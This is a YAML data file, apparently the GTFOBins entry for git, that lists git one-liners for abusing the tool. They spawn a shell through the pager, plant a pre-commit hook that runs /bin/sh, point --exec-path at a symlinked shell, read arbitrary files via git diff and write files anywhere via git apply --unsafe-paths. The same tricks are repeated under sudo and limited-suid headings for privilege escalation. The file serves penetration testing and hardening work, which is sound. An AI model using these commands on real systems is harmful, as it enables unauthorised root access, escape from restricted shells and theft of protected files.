 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        git -C "$TF" commit --allow-empty -m x
    - code: |
        TF=$(mktemp -d)
        ln -s /bin/sh "$TF/git-x"
        git "--exec-path=$TF" x
  file-read:
    - description: The read file content is displayed in `diff` style output format.
      code: |
        LFILE=file_to_read
        git diff /dev/null $LFILE
  file-write:
    - description: The patch can be created locally by creating the file that will be written on the target using its absolute path, then `git diff /dev/null /path/to/file >x.patch`.
      code: |
        git apply --unsafe-paths --directory / x.patch
  sudo:
    - code: sudo PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - description: Git hooks are merely shell scripts and in the following example the hook associated to the `pre-commit` action is used. Any other hook will work, just make sure to be able perform the proper action to trigger it. An existing repository can also be used and moving into the directory works too, i.e., instead of using the `-C` option.
      code: |
        TF=$(mktemp -d)
        git init "$TF"
        echo 'exec /bin/sh 0<&2 1>&2' >"$TF/.git/hooks/pre-commit.sample"
        mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"
        sudo git -C "$TF" commit --allow-empty -m x
    - code: |
        TF=$(mktemp -d)
        ln -s /bin/sh "$TF/git-x"
        sudo git "--exec-path=$TF" x
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```


